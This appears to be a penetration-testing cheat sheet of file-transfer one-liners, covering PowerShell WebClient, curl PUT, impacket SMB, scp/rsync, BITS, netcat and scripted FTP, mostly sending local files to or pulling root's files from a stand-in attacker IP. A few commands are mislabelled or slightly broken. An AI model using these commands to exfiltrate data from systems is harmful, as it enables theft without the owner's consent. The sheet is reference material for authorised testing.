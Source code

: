 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------

#### 

**Web Content Upload**
    
    $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')

**Web Content Upload**
    
    powershell.exe -c "curl.exe -T C:\temp\demo.txt http://10.10.10.10/demo.txt"

**Web Content Upload**
    
    Start-Process -FilePath "curl.exe" -ArgumentList "-T 'C:\temp\demo.txt' http://10.10.10.10/demo.txt" -NoNewWindow -Wait
------------------------------------------------------------------------------------------------------------------
USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Using PUT Method**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt', 'PUT', 'C:\temp\demo.txt')"   

**Using POST Method**

    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.UploadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"
------------------------------------------------------------------------------------------------------------------
USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**To create authenticated session**

    net use \\10.10.10.10 /u:"user" "123"

**Web Content Upload**
    
    copy demo.txt \\10.10.10.10\share\  
------------------------------------------------------------------------------------------------------------------
USING SSH - 
------------------------------------------------------------------------------------------------------------------

SCP-

**Web Content Upload**
    
    scp user@10.10.10.10:/tmp/demo.txt /tmp/

**Wildcard**

    scp -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**Custom Port**

    scp P 2222 -vr root@10.10.10.10:/root/*.zip /tmp/demo/ 

**SSH Key**

    scp -i /home/user/.ssh/id_rsa -vr root@10.10.10.10: /tmp/demo/ 

RSYNC-

**Web Content Upload**
    
    rsync -av root@10.10.10.10:/root/* /tmp/demo/

**Custom Port**

    rsync -av --port 2222 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**SSH Key**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------
USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------
USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Upload**
    
    Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source "C:\temp\demo.txt" -Destination "http://10.10.10.10/demo.txt" -TransferType Upload

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Web Content Upload**
    
    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt' -Method 'PUT'"
------------------------------------------------------------------------------------------------------------------
USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**First, start listener on client with output redirection to file**
    
    nc.exe -nlvp 443 > demo.txt

**Then start server with input redirection from file**
    
    type demo.txt | nc.exe -v 10.10.10.10 443
------------------------------------------------------------------------------------------------------------------
USING FTP - 
------------------------------------------------------------------------------------------------------------------

**File Upload**

Replace "demo.txt" with desired file name
    
    echo open 10.10.10.10 21 > file.txt
    echo bin>> file.txt
    echo put demo.txt>> file.txt
    echo bye>> file.txt

    ftp -A -v -n -s:file.txt

**One Liner**

    echo open 10.10.10.10 21 > file.txt && echo bin>> file.txt && echo put demo.txt>> file.txt && echo bye>> file.txt && ftp -A -v -n -s:file.txt

**Mannualy -**

    ftp
    open 10.10.10.10 2121
    put demo.txt
------------------------------------------------------------------------------------------------------------------

 
